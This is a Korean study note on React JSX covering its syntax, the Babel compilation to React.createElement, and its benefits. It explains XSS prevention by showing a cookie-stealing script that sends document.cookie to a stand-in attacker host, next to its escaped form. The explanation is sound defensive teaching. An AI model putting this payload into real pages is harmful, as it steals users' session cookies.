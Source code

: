 ## JSX

> JavaScript XML

- `JavaScript`를 확장한 문법
- UI 설명을 위해 `React`와 함께 사용하는 것을 권장
- `camelCase` 사용
- JSX는 `React Element`를 생성한다.

```jsx
/* 1 */
const element = <h1 className="greeting">Hello, world!</h1>;

/* 2 */
const element = React.createElement(
  "h1",
  { className: "greeting" },
  "Hello, world!"
);

// 1,2는 같은 코드
```

- JSX의 중괄호 안에는 모든 JavaScript 표현식을 넣을 수 있음

```tsx
const Component = () => {
  const innerString = "hello world!";
  return <div>{innerString}</div>;
};
```

- JSX에서 **여는 태그와 닫는 태그**가 있는 JSX 표현에서 두 태그 사이의 내용은 `props.children`이라는 특수한 prop으로 넘겨짐
  - JavaScript 표현식이나 JSX(다른 컴포넌트?)를 자식으로 전달할 수 있음
  - **boolean, null, undefined는 무시**

### JSX 변환 과정

1. JSX 코드 작성
   1. HTML 태그 등 UI와 관련된 코드를 JS와 함께 작성
2. `Babel(컴파일러)`에 의해 일반 JavaScript 코드로 변환됨

   1. 이 과정에서 JSX 문법이 `React.createElement()` 함수 호출로 변환됨

      ```tsx
      // JSX
      <div>hello world!</div>;

      // 컴파일러를 통해 변환된 코드
      React.createElement("div", null, "Hello world!");
      // param은 순서대로 어떤 엘리먼트인지, 속성은 무엇인지, 내용은 무엇인지
      ```

   2. 즉, `React.createElement`를 통해 `React Element` 반환

3. 이후, React 동작 방식에 따라 `Virtual DOM`과 비교하여 `Real DOM`에 반영되어 렌더링

→ React는 이렇게 생성된 객체들로 **DOM을 구성하고 최신 상태로 유지**하는데 사용함

- Virtual DOM과 비교하여 변경 사항들을 비교하여 Real DOM에 반영하는 것을 의미하는듯

### 사용 이유

- 컴포넌트의 구조와 UI가 더 직관적으로 이해되며, 코드 가독성이 향상됨
  - HTML과 유사한 문법을 사용하여 한눈에 코드를 볼 수 있기 때문
  - **즉, 마크업과 UI 로직을 둘 다 포함하여 개발을 할 수 있다.**
- UI를 작은 컴포넌트로 분할하여 관리하고 재사용 가능한 요소로 만들 수 있음
  - 각 컴포넌트 분리를 위해 React Element 객체 단위로 개발을 할 수 있기 때문
  - **즉, 컴포넌트 별로 분류하여 유지보수를 쉽게 할 수 있다.**
- Virtual DOM과 함께 사용되어 UI 업데이트를 효율적으로 처리하여 성능 최적화
  - 각 컴포넌트에서 JSX를 통해 React Element를 return하여 Virtual DOM 구성이 용이해지고, 기존의 Virtual DOM과 빠르게 비교할 수 있기 때문인듯
- XSS (Cross-Site-Scripting) 공격 방지 가능

  - React DOM은 JSX에 삽입된 모든 값을 렌더링하기 전에 이스케이프하기 때문

    ```html
    <script>
      let xmlHttp = new XMLHttpRequest();
      const url = "http://hackerServer.com?victimCookie=" + document.cookie;
      xmlHttp.open("GET", url);
      xmlHttp.send();
    </script>

    <!-- 이스케이프 후 아래와 같이 변환  -->
    &lt;script&gt; let xmlHttp = new XMLHttpRequest(); const url =
    &quot;http://hackerServer.com?victimCookie=&quot; + document.cookie;
    xmlHttp.open(&quot;GET&quot;, url); xmlHttp.send(); &lt;/script&gt;
    ```

  - 렌더링 전, 이스케이프를 거쳐 모든 항목들이 문자열로 변환되기 때문에 XSS 공격을 방지할 수 있다.

---

### 이스케이프(Escape)란?

> 특정 문자를 **원래의 기능에서 벗어나게 변환하는 행위**

```tsx
&은 &amp;로
<은 &lt;로
>은 &gt;로
"은 &quot;로
'은 &#39로
띄어쓰기는 &nbsp;로
```

### **XSS(Cross Site Scripting)**

- XSS는 블로그나 게시판 같은 서비스에서 주로 일어나며 여러 사람들이 보는 글에 스크립트를 주입해서 사용자의 정보(쿠키, 세션)를 탈취하거나 비정상적인 기능을 수행하게 한다.

  - 예시

    1. 게시판에 글 대신 유저의 쿠키 정보를 전송하는 스크립트 코드를 작성

       유저가 해당 글에 접근했을때, 코드가 실행

       쿠키 정보가 해커에게 전달

    2. `<img>` 태그 등을 삽입하여 원본 페이지와는 전혀 관련 없는 페이지를 노출
